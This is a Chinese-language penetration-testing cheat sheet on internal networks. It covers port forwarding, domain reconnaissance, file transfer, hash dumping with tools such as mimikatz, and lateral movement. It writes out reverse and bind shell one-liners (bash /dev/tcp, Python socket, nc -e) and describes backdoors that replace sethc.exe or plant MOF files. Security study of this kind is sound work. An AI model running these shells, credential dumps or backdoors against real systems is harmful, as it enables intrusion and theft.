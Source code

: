 内网渗透
================================

端口转发&&边界代理
--------------------------------

端口转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- windows
    - lcx
    - netsh
- linux
    - portmap
    - iptables
- socket代理
    - Win: xsocks
    - Linux: proxychains
- 工具推荐
    - http://rootkiter.com/EarthWorm/
- 基于http的转发与socket代理(低权限下的渗透)
    - 端口转发: tunna
    - socks代理: reGeorg
- ssh通道
    - 端口转发
    - socks

获取shell
--------------------------------
- 常规shell反弹

::

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

- 突破防火墙的imcp_shell反弹
- 正向shell

::

    nc -e /bin/sh -lp 1234
    nc.exe -e cmd.exe -lp 1234

信息收集(结构分析)
--------------------------------
- 基本命令
    - 获取当前组的计算机名：``net view``
    - 查看所有域: ``net view /domain``
    - 从计算机名获取ipv4地址：``ping -n 1 DC1 -4``
    - 查看域中的用户名：``dsquery user``
    - 查询域组名称：``net group /domain``
    - 查询域管理员：``net group "Domain Admins" /domain``
    - 查看当前计算机名，全名，用户名，系统版本，工作 站域，登陆域：``net config Workstation``
    - 查看域控制器：``net group "Domain controllers"``
    - 查询所有计算机名称：``dsquery computer``

- 定位域控
- 端口收集
- 扫描分析

内网文件传输
--------------------------------
- windows下文件传输
    - powershell
    - vbs脚本文件
    - bitsadmin
    - 文件共享
    - 使用telnet接收数据
    - hta
- linux下文件传输
    - python
    - wget
    - tar + ssh
    - 利用dns传输数据
- 文件编译
    - powershell将exe转为txt，再txt转为exe

hash抓取
--------------------------------
- Windows本地密码散列导出工具
    - mimikatz
    - wce
    - gsecdump
    - copypwd
    - Pwdump
- Windows本地密码破解工具
    - L0phtCrack
    - SAMInside
    - Ophcrack
- 彩虹表破解
- 本机hash+明文抓取
- win8+win2012明文抓取
- ntds.dit的导出+QuarkPwDump读取分析
- vssown.vbs + libesedb + NtdsXtract
- ntdsdump
- 利用powershell(DSInternals)分析hash

远程连接 && 执行程序
--------------------------------
- at&schtasks
- psexec
- wmic
- wmiexec.vbs
- smbexec
- powershell remoting
- SC创建服务执行
- schtasks
- SMB+MOF || DLL Hijacks
- PTH + compmgmt.msc

权限获取
--------------------------------

MOF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
MOF是Windows系统的一个文件（ ``c:/windows/system32/wbem/mof/nullevt.mof`` ）叫做"托管对象格式"，其作用是每隔五秒就会去监控进程创建和死亡。

当拥有文件上传的权限但是没有Shell时，可以上传定制的mof文件至相应的位置，一定时间后这个mof就会被执行。

一般会采用在mof中加入一段添加管理员用户的命令的vbs脚本，当执行后就拥有了新的管理员账户。

sethc
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``sethc.exe`` 是 Windows系统在用户按下五次shift后调用的粘滞键处理程序，当有写文件但是没有执行权限时，可以通过替换 ``sethc.exe`` 的方式留下后门，在密码输入页面输入五次shift即可获得权限。

参考链接
--------------------------------
- `got domain admin on internal network <https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa>`_
